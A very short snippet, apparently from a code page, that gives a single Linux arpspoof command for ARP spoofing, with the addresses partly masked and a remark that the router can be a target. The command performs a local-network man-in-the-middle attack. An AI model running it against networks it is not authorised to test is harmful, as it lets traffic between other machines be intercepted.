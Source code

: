 # ARP Spoofer - linux command

arpspoof -i eth0 -t 192.168.---.- 192.168.---.-

Target IP. Router can be a target machine.

